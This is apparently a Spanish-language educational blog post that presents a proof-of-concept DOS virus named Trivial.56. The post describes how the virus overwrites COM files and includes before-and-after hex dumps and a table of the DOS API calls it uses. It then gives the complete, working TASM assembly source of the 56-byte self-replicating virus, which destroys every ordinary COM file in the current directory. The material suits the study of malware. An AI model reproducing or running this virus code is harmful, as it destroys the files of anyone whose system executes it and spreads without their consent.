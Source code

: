 ```yaml
---
categories: [malware, programacion]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

{% img infection.png | {"width":"350"} %}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
{% img flow.png | {"width":"350"} %}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span>B4 09 BA 39 01 CD 21 90</span>  <span>´.º9.Í!.</span>
<span>0x0008</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0010</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0018</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0020</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0028</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0030</span>  <span>90 90 90 90 90 B4 00 CD</span>  <span>.....´.Í</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span class="vs">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vs">´N3Éº2.Í</span>
<span>0x0008</span>  <span class="vs">21 73 08 EB 21 B4 4F CD</span>  <span class="vs">!s.ë!´OÍ</span>
<span>0x0010</span>  <span class="vs">21 72 1B B4 3D B0 02 BA</span>  <span class="vs">!r.´=°.º</span>
<span>0x0018</span>  <span class="vs">9E 00 CD 21 8B D8 B4 40</span>  <span class="vs">ž.Í!‹Ø´@</span>
<span>0x0020</span>  <span class="vs">B9 38 00 BA 00 01 CD 21</span>  <span class="vs">¹8.º..Í!</span>
<span>0x0028</span>  <span class="vs">B4 3E CD 21 EB DF B4 00</span>  <span class="vs">´>Í!ëß´.</span>
<span>0x0030</span>  <span class="vs">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vs">Í!*.com.</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>
<style>
  pre.ovf span { color: #000; }
  pre.ovf span:first-of-type { line-height:200% }
  pre.ovf span.vs { color: #ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org     100h

start:    
    mov     ah, 4Eh               ; | AH = 4Eh 
    xor     cx, cx                ; | CX = 0, archivos normales
    lea     dx, search_str        ; | DS:DX -> "*.COM"
    int     21h                   ; |_DOS API - Buscar primer archivo

    jnc     infect_file           ; archivo encontrado
    jmp     exit                  ; no hay archivo

find_next:    
    mov     ah, 4Fh               ; | AH = 4Fh  
    int     21h                   ; |_DOS API - Buscar siguiente archivo 

    jc      exit                  ; no hay archivo

infect_file:    
    mov     ah, 3Dh               ; | AH = 3Dh 
    mov     al, 2                 ; | AL = 2, lectura y escritura
    mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
    int     21h                   ; |_DOS API - Abrir archivo existente

    mov     bx, ax                ; | BX = handle del archivo 
    mov     ah, 40h               ; | AH = 40h
    mov     cx, virus_size        ; | CX = tamaño del virus
    lea     dx, start             ; | DS:DX -> inicio del código viral
    int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

    mov     ah, 3Eh               ; | AH = 3Eh 
    int     21h                   ; |_DOS API - Cerrar archivo

    jmp     find_next             ; buscar siguiente

exit:    
    mov     ah, 00h               ; | AH = 00h
    int     21h                   ; |_DOS API - Retornar a DOS

search_str    db   "*.com", 00h   ; nombre comodín de búsqueda
virus_size    equ  ($ - start)    ; tamaño del virus

virus ends
end start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 